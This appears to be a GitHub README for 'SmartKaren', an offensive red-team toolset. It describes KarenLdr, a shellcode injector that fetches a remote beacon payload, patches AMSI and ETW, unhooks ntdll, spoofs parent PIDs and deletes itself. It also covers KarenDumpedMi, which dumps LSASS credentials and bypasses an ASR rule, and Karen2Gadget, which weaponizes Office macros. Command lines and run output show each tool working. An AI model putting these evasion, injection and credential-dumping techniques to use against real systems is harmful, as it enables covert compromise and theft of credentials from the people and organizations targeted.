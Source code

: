 # SmartKaren
A series of custom offensive toolset and utilities written in C# and Rust. This project is developed to explore AV evasion techniques for aiding red teaming operations. 

![](./resources/SmartKaren.[png)

## KarenLdr
KarenLdr is a compact Process Injector with various evasion techniques such as AMSI bypass and ETW patching built-in to it. To evade static signature, KarenLdr leverages low level NT*API calls (with the exception of AMSI & ETW patching) and a modified version of D/Invoke library. 

At it's core, KarenLdr leverages a combination of `NtMapViewSection` and `NtQueueApcThread` to steer away from the classic process injection method of `VirtualAlloc`, `VirtualProtect` and `CreateThread` that are heavily signatured. To achieve this, the remote process is spawned under a suspended state by tampering the Process Creation Flag with `CREATE_SUSPENDED`. This technique is useful in bypassing Attack Surface Reduction (ASR) rule that blocks the creation of threads.

At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original ntdll.dll that was hooked by EDR is left untouched. All NT*API are then exported and called from the clean copy of ntdll.dll instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with. Alternatively, direct syscalls can also be enabled by specifying the `--syscall` flag.

Additionally, it also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead. At the end of execution, the executable file will be wipped from disk automatically to erase traces.

**Future Enhancement:** Indirect Syscalls & Threadless Injection
```
C:\>KarenLdr.exe -u "https://192.168.231.128:443/beacon.bin" -t notepad -p 9524 -k 
     _        _______  _______  _______  _        _        ______   _______
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|( \      (  __  \ (  ____ )
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (      | (  \  )| (    )|
    |  (_/ / | (___) || (____)|| (__    |   \ | || |      | |   ) || (____)|
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |      | |   | ||     __)
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |      | |   ) || (\ (
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (____/\| (__/  )| ) \ \__
    |_/    \/|/     \||/   \__/(_______/|/    )_)(_______/(______/ |/   \__/

 KarenLdr: D/Invoke + NT*API + Manual Mapping + Direct Syscall + AMSI & ETW Patching + PPID Spoofing

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -s, --syscall  Enable Direct Syscall. Default: Manual Mapping

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : https://192.168.231.128:443/beacon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 9524
| Self Destruct : True
|--------------

[>] Patching Event Tracing for Windows (ETW)
    |-> Address of ntdll.dll: 0x7FFD8DEF0000
    |-> Location of EtwEventWrite(): 0x7FFD8DF3F1F0
    |-> Patching Memory: 0x00000020 -> 0x04
    |-> Restoring Memory: 0x04 -> 0x00000020

[>] Patching Anti Malware Scan Interface (AMSI)
    |-> Address of AmsiScanBuffer(): 0x7FFD75B83860
    |-> Successfully Patched AMSI!

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 22232

[>] Fetching Payload
    |-> Payload Retrieved Successfully!

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ffd8def0000
    |-> New copy of ntdll.dll: 0x29cb56e0000

[>] NtCreateSection()
    |-> New Section Created!

[>] NtMapViewOfSection()
    |-> New Section Mapped!

[>] Copied Shellcode to Memory!

[>] NtMapViewOfSection()
    |-> Memory Region Mapped to Target Process!
    |-> Base Address: 0x209ED370000

[>] NtQueueApcThread()
    |-> Queueing APC!

[>] NtSetInformationThread()
    |-> Thread Priority Set!

[>] NtResumeThread()
    |-> Resuming Thread!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] KarenLdr.exe removed from disk!
```

## KarenDumpedMi
KarenDumpedMi demonstrates 2 different methods to dump the Local Security Authority Subsystem Service (LSASS) process from memory. This requires `SYSTEM*` privileges and AMSI bypass to interact with the LSASS process.

Method 1 leverages `MiniDumpWriteDump` from `Dbghelp.dll` to perform a user-mode minidump. To evade behavioural detection, spoof the PPID to `winlogon.exe` and set the spawnto sacrificial process to either `WerFault.exe` or `svchost.exe`.

Method 2 leverages `WmiPrvSE.exe` and shellcode injection to dump LSASS on an endpoint with the ASR rule of "Block credential stealing from the Windows local security authority subsystem (lsass.exe)" enabled.

**NOTE:** To parse the dump file, use `sekurlsa::minidump lsass.dmp` -> `sekurlsa::logonpasswords` from Mimikatz or a LSASS parser like [MiniDump](https://github.com/cube0x0/MiniDump).
```
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Process Handle: 0x2CC
    |-> File Handle (karen.dmp): 0x2C4

[>] Invoking MiniDumpWriteDump
    |-> Successfully Called MiniDumpWriteDump()
    |-> COMPLETED! You can now parse karen.dmp!
    
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Unable to Open Process Handle!

[>] Method 1 Failed! Trying Method 2
    |-> Dumping LSASS With ASR Bypass!

[>] Spawning WmiPrvSE.exe
    |-> PID: 20856

[>] COMPLETED! You can now parse lsass.dmp!
```

## Karen2Gadget
Karen2Gadget is a boilerplate of KarenLdr designed to work compatibly with [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript). It can be used to automate Macro weaponization for bypassing ASR rules that block Win32 APIs.

Before using, modify the hardcoded URL for raw shellcode at Line 480 and PID for PPID Spoofing at Line 512.

**NOTE:** Use `cscript.exe Karen2Gadget.vbs` to test the PoC.
```
C:\>GadgetToJScript.exe -c Karen2Gadget\Program.cs -o Karen2Gadget -w vba -b -d System.dll
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at: Karen2Gadget\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: Karen2Gadget.vba

C:\>GadgetToJScript.exe -c Karen2Gadget\Program.cs -o Karen2Gadget -w vbs -b -d System.dll
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at: Karen2Gadget\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: Karen2Gadget.vbs
```
